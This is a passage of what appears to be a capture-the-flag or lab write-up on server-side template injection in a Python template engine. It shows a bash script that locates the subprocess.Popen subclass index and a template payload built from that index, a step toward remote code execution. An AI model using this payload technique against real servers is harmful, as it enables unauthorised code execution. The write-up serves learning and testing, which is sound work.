    step_2=$(sed 's/&lt;/\'$'\n/g' SSTI.txt | tee SSTI_1.txt)
        
    ### STEP 3: This 'sed' command deletes every line that doesn't contain 'class &#39;' which is equivalent to the word 'class' and an apostrophe: class '
        
    step_3=$(sed '/class &#39;/!d' SSTI_1.txt | tee SSTI_2.txt)

    ### STEP 4: This lets you know where `subprocess.Popen' is found. 
        
    step_4=$(sed -n '/subprocess.Popen/=' SSTI_2.txt)
        
    sleep 1;
        
    echo "Performing curl. $step_1"
        
    echo "Adding new line before each '&lt;'. $step_2" > /dev/null 2>&1
        
    echo "Only adding lines that include 'class &#39;' to a file. $step_3" > /dev/null 2>&1
        
    echo -e "Showing which line contains 'subprocess.Popen'. \nThe result is line: $step_4" 
    ```
    The result equals 312. Let's build our latest payload using that index:

    ```
    {{2022.__class__.__mro__[1].__subclasses__()[312]}}
    ```

    And here is the result:

    ![image 48](img/image48.png)
